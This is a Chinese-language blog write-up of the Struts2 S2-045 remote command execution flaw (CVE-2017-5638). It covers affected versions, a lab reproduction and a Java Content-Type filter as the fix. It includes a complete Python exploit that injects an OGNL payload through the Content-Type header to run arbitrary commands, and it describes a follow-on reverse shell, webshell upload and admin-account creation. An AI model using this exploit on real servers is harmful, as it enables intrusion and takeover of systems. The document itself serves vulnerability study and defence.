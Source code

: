 ```yaml
---
title: Struts2远程命令执行漏洞
categories:
  - 命令执行
tags:
  - Struts2
  - 命令执行漏洞
toc: true 文章目录
author: BlBana
date: 2017-03-08 19:00:13
description:
comments:
original:
permalink:
---
```

## S2-045 Struts2远程命令执行漏洞

### 0x01 stucts
Struts是Apache基金会的一个开源项目，Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的Model-View-Controller(MVC)设计模式的应用框架，是MVC经典设计模式中的一个经典产品。
<!-- more -->
### 0x02 影响范围
Struts 2.3.5 – Struts 2.3.31 Struts 2.5 – Struts 2.5.10

### 0x03 不受影响版本
Struts 2.3.32 Struts 2.5.10.1

### 0x04 漏洞危害
在default.properties文件中，struts.multipart.parser的值有两个选择，分别是jakarta和pell。在Strucs 2框架中jakarta解析器是框架的标准组成部分。默认这个解析器是启动的。
由于该组件解析上传文件的Content-Type头时，异常处理函数没有正确的处理用户输入的错误信息。导致可以远程发送恶意的上传数据包，利用漏洞可以执行任意的命令。
> 漏洞编号：CVE-2017-5638
> 漏洞名称：S2-045：Struts 2远程执行代码漏洞
> 漏洞影响：基于JakartaMultipart解析器执行文件上传时可能的RCE

### 0x05 PoC漏洞检测
```python
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    if len(sys.argv) < 3:
        print '''Usage: poc.py http://172.16.12.2/example/HelloWorld.action "command"'''
        sys.exit()
    register_openers()
    datagen, header = multipart_encode({"image": open("tmp.txt", "w+")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+str(sys.argv[2])+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()
```
**通过此PoC确认目标是否存在此漏洞**，此外还可以通过Seebug上的照妖镜来进行在线的检测，可以判断目标机器是否存在漏洞。

### 0x06 漏洞复现
我在本机的ubuntu上复现了此漏洞，配置环境如下：
1. Tomcat5
2. struts 2.3.31

1. 部署的方式比较容易，先安装好Tomcat的服务器，访问http://localhost:8080进行检测环境是否搭建成功。（需在服务器上配置好Java环境，参考连接：[Tomcat环境部署](http://drops.blbana.cc/2016/10/24/e9-80-9a-e8-bf-87tomcat-e8-8e-b7-e5-8f-96webshell/%22Tomcat%E7%8E%AF%E5%A2%83%E9%83%A8%E7%BD%B2%22)）
![enter image description here](http://blog.blbana.cc/img/hexo/Struts/1.png)

2. Tomcat的环境搭建完成了以后，可以进入struts2的官网下载存在漏洞的应用程序版本，利用刚才部署环境里的方法将struts2的war包导入到Tomcat的环境当中，访问搭建好的环境如下所示：
![enter image description here](http://blog.blbana.cc/img/hexo/Struts/2.png)

3. 环境搭建完成以后，可以利用上面的PoC对其进行一个测试的操作
> 注意：这个脚本需要安装poster的python类库才能正常运行
我是在windows环境下进行测试的，直接运行python的脚本，填写好目标的地址，可以拿到一个执行命令的权限
![enter image description here](http://blog.blbana.cc/img/hexo/Struts/3.png)

4. 接下来我们可以在公网的服务器上监听一个端口，然后利用命令执行反弹一个shell给服务器，直接获取服务器的权限
![enter image description here](http://blog.blbana.cc/img/hexo/Struts/4.png)

![enter image description here](http://blog.blbana.cc/img/hexo/Struts/5.png)

5. 除此之外，当我们拿到了较高的权限的时候，还可以在我们的服务器上放一个webshell，然后通过执行命令将服务器上的webshell下载到目标机器上，这里注意的是需要**知道网站的真实路径**（*通过locate *.jsp来定位jsp文件的位置*），之后当获得了webshell的时候就可以得到文件管理，上传等权限了。

6. 对于windows服务器可以直接执行创建用户和添加管理员的两条命令，如果3389端口打开，可以直接利用创建的用户打开远程桌面。

### 0x07漏洞修复
1. 升级版本：正在使用Jakarta文件上传插件的可以升级版本到struts2的安全版本
2. 过滤验证：通过判断Content-Type是否为白名单，限制非法的攻击
加固代码：

```java
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
 
 
public class SecurityFilter extends HttpServlet implements Filter {
 
        /**
         * 
         */
        private static final long serialVersionUID = 1L;
         
         
        public final String www_url_encode= "application/x-www-form-urlencoded";
        public final String mul_data= "multipart/form-data ";
        public final String txt_pla= "text/plain";
 
        public void doFilter(ServletRequest arg0, ServletResponse arg1,
                        FilterChain arg2) throws IOException, ServletException {
 
                HttpServletRequest request = (HttpServletRequest) arg0;
                HttpServletResponse response = (HttpServletResponse) arg1;
                 
                String contenType=request.getHeader("conTent-type");
                 
                if(contenType!=null&&!contenType.equals("")&&!contenType.equalsIgnoreCase(www_url_encode)&&!contenType.equalsIgnoreCase(mul_data)&&!contenType.equalsIgnoreCase(txt_pla)){
                         
                        response.setContentType("text/html;charset=UTF-8");
                        response.getWriter().write("非法请求Content-Type！");
                        return;
                }
                arg2.doFilter(request, response);
        }
 
        public void init(FilterConfig arg0) throws ServletException {
 
        }
 
}
```
编译成“SecurityFilter.class”复制到应用的WEB-INF/classes目录下，配置web.xml文件，使该文件生效

3. 还有一种方法就是进入将默认的Jakarta模块改为使用Pell模块


---
